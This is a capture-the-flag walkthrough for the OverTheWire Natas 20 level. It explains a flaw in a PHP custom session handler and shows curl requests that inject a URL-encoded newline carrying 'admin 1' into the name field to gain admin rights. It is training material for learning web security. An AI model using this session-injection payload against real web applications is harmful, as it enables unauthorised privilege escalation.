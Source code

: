 # Natas 20 -> 21

```
http://natas20.natas.labs.overthewire.org
```

```
Username: natas20
```

This time we get a message telling us that we're logged as regular user, to login as admin to get the creds. Also the source code.


```php
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) { 
    //debug("MYOPEN $path $name"); 
    return true; 
}

/* we don't need this */
function myclose() { 
    //debug("MYCLOSE"); 
    return true; 
}

function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid"); 
    return true; 
}
/* we don't need this */
function mygarbage($t) { 
    //debug("MYGARBAGE $t"); 
    return true; 
}

session_set_save_handler(
    "myopen", 
    "myclose", 
    "myread", 
    "mywrite", 
    "mydestroy", 
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?>

<form action="index.php" method="POST">
Your name: <input name="name" value="<?=$name?>"><br>
<input type="submit" value="Change name" />
</form> 
```

There's a line in `myread` that gives us a huge hint about how the `PHPSESSID` is formatted:

```php
if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
```

`strspn` will find the length of the initial segment of the first parameter that matches characters from the second parameter. In other words:

```
strspn("123", "1234567890abcdef") // returns int(3)
strspn("12", "1234567890abcdef") // returns int(2)
strspn("1", "1234567890abcdef") // returns int(1)
strspn("a", "1234567890abcdef") // returns int(0)
```

So, the length (`strlen`) of `PHPSESSID` must match the length of chars matched by `strspn`.  
Also, the alphabet is not in the usual order but `qwertyu.....`.  
Another thing, is worth noting that it will save the session in a file which we can discover by passing `$_GET['debug']`. This is important since the filename is named `mysess_${PHPSESSID}`.  
Let's continue, there's `session_set_save_handler` which will do the job of storing the session by calling `myread`, `mywrite` and the rest which only return `true`.  
Since `myread` will *read* the session file written by `mywrite`, let's see what it does.

```php
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
```

So, anything we pass will be written right?


```
$ curl -v --user natas20:${NATAS20_PASSWD} "http://natas20.natas.labs.overthewire.org/index.php?name=hello%20world&debug=1"

DEBUG: MYREAD bmsaqpjdmskgkdh29a47lujb15<br>DEBUG: Session file doesn't exist<br>DEBUG: Name set to hello world<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
...
DEBUG: MYWRITE bmsaqpjdmskgkdh29a47lujb15 name|s:11:"hello world";<br>DEBUG: Saving in /var/lib/php5/mysess_bmsaqpjdmskgkdh29a47lujb15<br>DEBUG: name => hello world<br>
```

Well, seems like it wrote `name => hello world` into `/var/lib/php5/mysess_bmsaqpjdmskgkdh29a47lujb15`  
Let's see the actual content.

```
$ curl -v --user natas20:${NATAS20_PASSWD} --cookie "PHPSESSID=bmsaqpjdmskgkdh29a47lujb15" "http://natas20.natas.labs.overthewire.org/index.php?name=hello%20world&debug=1"

DEBUG: MYREAD bmsaqpjdmskgkdh29a47lujb15<br>DEBUG: Reading from /var/lib/php5/mysess_bmsaqpjdmskgkdh29a47lujb15<br>DEBUG: Read [name hello world]<br>DEBUG: Read []<br>DEBUG: Name set to hello world<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
...
DEBUG: MYWRITE bmsaqpjdmskgkdh29a47lujb15 name|s:11:"hello world";<br>DEBUG: Saving in /var/lib/php5/mysess_bmsaqpjdmskgkdh29a47lujb15<br>DEBUG: name => hello world<br>
```

Yeah, it's there: `DEBUG: Read [name hello world]`  
Since the string saved is `$data .= "$key $value\n"`, can we add `\nadmin`?  
Let's URIencode the string with `firebug` or `dev-tools`:

```javascript
window.encodeURIComponent("\n") 
"%0A"
```

Let's see

```
$ curl -v --user natas20:${NATAS20_PASSWD} "http://natas20.natas.labs.overthewire.org/index.php?name=hello%0Aadmin%201&debug=1"
DEBUG: MYREAD fg004ej7l7usv4923ckslo7td5<br>DEBUG: Session file doesn't exist<br>DEBUG: Name set to hello
admin 1<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
...
DEBUG: MYWRITE fg004ej7l7usv4923ckslo7td5 name|s:13:"hello
admin 1";<br>DEBUG: Saving in /var/lib/php5/mysess_fg004ej7l7usv4923ckslo7td5<br>DEBUG: name => hello
admin 1<br>
```

And now we pass the `PHPSESSID`

```
$ curl -v --user natas20:${NATAS20_PASSWD} --cookie "PHPSESSID=fg004ej7l7usv4923ckslo7td5" "http://natas20.natas.labs.overthewire.org/index.php?name=hello%0Aadmin%201&debug=1"
DEBUG: MYREAD fg004ej7l7usv4923ckslo7td5<br>DEBUG: Reading from /var/lib/php5/mysess_fg004ej7l7usv4923ckslo7td5<br>DEBUG: Read [name hello]<br>DEBUG: Read [admin 1]<br>DEBUG: Read []<br>DEBUG: Name set to hello
admin 1<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: {...}</pre>
...
DEBUG: MYWRITE fg004ej7l7usv4923ckslo7td5 name|s:13:"hello
admin 1";admin|s:1:"1";<br>DEBUG: Saving in /var/lib/php5/mysess_fg004ej7l7usv4923ckslo7td5<br>DEBUG: admin => 1<br>DEBUG: name => hello
admin 1<br>
```

:-)


* php
* strspn
* strlen
* session_set_save_handler
